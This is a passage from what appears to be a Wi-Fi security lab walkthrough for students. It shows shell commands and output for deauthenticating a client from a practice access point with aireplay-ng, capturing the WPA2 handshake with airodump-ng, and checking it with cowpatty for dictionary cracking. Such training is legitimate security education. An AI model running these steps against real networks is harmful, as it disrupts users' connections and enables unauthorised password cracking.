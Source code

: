 Students will open another terminal/tab, switch to the root user, and perform a deauthentication attack using `aireplay-ng` and the found BSSIDs of both the access point (`HackMe`) and the client. Note the client's BSSID (MAC address) is subject to change upon spawn/reset of the target.

Code: shell

```shell
sudo -s
aireplay-ng -0 5 -a D8:D6:3D:EB:29:D5 -c E6:40:90:8C:AB:1E wlan0mon
```

```
wifi@WiFiIntro:~$ sudo -s
root@WiFiIntro:/home/wifi# aireplay-ng -0 5 -a D8:D6:3D:EB:29:D5 -c E6:40:90:8C:AB:1E wlan0mon

10:04:31  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
10:04:31  Sending 64 directed DeAuth (code 7). STMAC: [E6:40:90:8C:AB:1E] [ 0| 0 ACKs]
10:04:32  Sending 64 directed DeAuth (code 7). STMAC: [E6:40:90:8C:AB:1E] [ 0| 0 ACKs]
10:04:32  Sending 64 directed DeAuth (code 7). STMAC: [E6:40:90:8C:AB:1E] [ 0| 0 ACKs]
10:04:33  Sending 64 directed DeAuth (code 7). STMAC: [E6:40:90:8C:AB:1E] [ 0| 0 ACKs]
10:04:34  Sending 64 directed DeAuth (code 7). STMAC: [E6:40:90:8C:AB:1E] [ 0| 0 ACKs]
```

Students will return to the terminal window of `airodump-ng` and are going to notice the captured WPA handshake. Subsequently, they will terminate the process with the key combination `Ctrl + C`:

```
root@WiFiIntro:/home/wifi# airodump-ng wlan0mon -c 1 -w AcademyStudent
10:01:55  Created capture file "AcademyStudent-01.cap".

CH  1 ][ Elapsed: 3 mins ][ 2025-01-07 10:05 ][ WPA handshake: D8:D6:3D:EB:29:D5 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D8:D6:3D:EB:29:D5  -47   0     1894       10    0   1   54   WPA2 CCMP   PSK  HackMe                                            

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 D8:D6:3D:EB:29:D5  E6:40:90:8C:AB:1E  -29    1 - 1      0      660  EAPOL  HackMe   
```

Next, students will use `cowpatty` to verify the successful capture of the handshake by specifying the `AcademyStudent-01.cap` file, the `-c` option to check for valid 4-way frames, and the `-r` option to specify the packet capture file:

Code: shell

```shell
cowpatty -c -r AcademyStudent-01.cap
```

```
root@WiFiIntro:/home/wifi# cowpatty -c -r AcademyStudent-01.cap

cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
```
